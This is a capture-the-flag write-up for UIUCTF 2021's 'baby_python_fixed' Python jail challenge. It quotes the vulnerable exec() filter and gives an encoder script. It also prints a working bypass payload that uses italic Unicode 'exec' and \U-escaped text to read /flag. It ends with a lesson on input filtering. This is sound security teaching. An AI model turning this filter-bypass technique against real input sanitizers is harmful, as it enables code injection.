 ```yaml
---
title: Writeup - baby_python_fixed (UIUCTF 2021)
date: 2021-08-05 00:00:00
tags: 
- writeup
- jail
- uiuctf2021
---
```


# UIUCTF 2021 - baby_python_fixed Writeup
- Type - Jail
- Name - baby_python_fixed
- Points - 133

## Description
```
whoops, I made a typo on the other chal. it's probably impossible, right? Python 
version is 3.8.10 and flag is at /flag

nc baby-python-fixed.chal.uiuc.tf 1337

author: tow_nater

[challenge.py]
```

## Writeup
The Python file included in the description was a very short but restrictive 4-line file:

```
import re
bad = bool(re.search(r'[a-z\s]', (input := input())))
exec(input) if not bad else print('Input contained bad characters')
exit(bad)
```

This script allows you to run any code that you want, the only characters you can't use are whitespace or lowercase characters. Since practically all of Python is in lowercase (and is case-sensitive), this obviously presented quite a challenge. After racking our brains and doing quite a bit of research, we had crossed off a couple of ideas like Python bytecode (you can't actually run it, I don't think) and a solution from a CTF in like 2013 where they ran code only using symbols (the key to it was deprecated in Python 3.x). One idea that we had stuck with us, but we couldn't quite finish it yet. We knew we could encode characters as hex values (`a` as `\x61`), but that still used a lowercase letter. After some investigation, I found we could use 8-digit Unicode characters (`a` as `\U00000061`). 

I wrote a small Python script that takes input and converts it to Unicode so we could craft our payload:

```
input = input()

print("'", end="")
for letter in input:
    print(hex(ord(letter)).replace("0x", "\\U000000").upper(), end="")

print("'")
```

Using this script, we crafted our payload `print(open("/flag","r").read())` as `'\U00000070\U00000072\U00000069\U0000006E\U00000074\U00000028\U0000006F\U00000070\U00000065\U0000006E\U00000028\U00000022\U0000002F\U00000066\U0000006C\U00000061\U00000067\U00000022\U0000002C\U00000022\U00000072\U00000022\U00000029\U0000002E\U00000072\U00000065\U00000061\U00000064\U00000028\U00000029\U00000029'`. All we needed was a way to run it! Python accepts strings and doesn't throw an error, but it doesn't run it. It wasn't until later that we realized we could use italic characters and have it execute our payload string. Using [an Italic generator](https://lingojam.com/ItalicTextGenerator), we generated `𝘦𝘹𝘦𝘤`, and our final payload was `𝘦𝘹𝘦𝘤('\U00000070\U00000072\U00000069\U0000006E\U00000074\U00000028\U0000006F\U00000070\U00000065\U0000006E\U00000028\U00000022\U0000002F\U00000066\U0000006C\U00000061\U00000067\U00000022\U0000002C\U00000022\U00000072\U00000022\U00000029\U0000002E\U00000072\U00000065\U00000061\U00000064\U00000028\U00000029\U00000029')`. We inserted this payload into the netcat session and it was executed and worked!

<img src="/static/uiuctf-babypythonfixed/gotFlag.png" width="800px">

**Flag:** `uiuctf{unicode_normalization_is_not_normal_d2f674}`

## Real-World Application
This comes to show how difficult it is to filter invalid inputs. Understanding character encodings and how specific languages and applications handle them is very important when attempting to stop injection attacks. For example, to prevent someone from doing a SQL injection attack, you may block them from using a single quote `'`, but what about an italic single quote? While this may or may not work, my point still stands - you have to be very careful and thoughtful when creating filters. 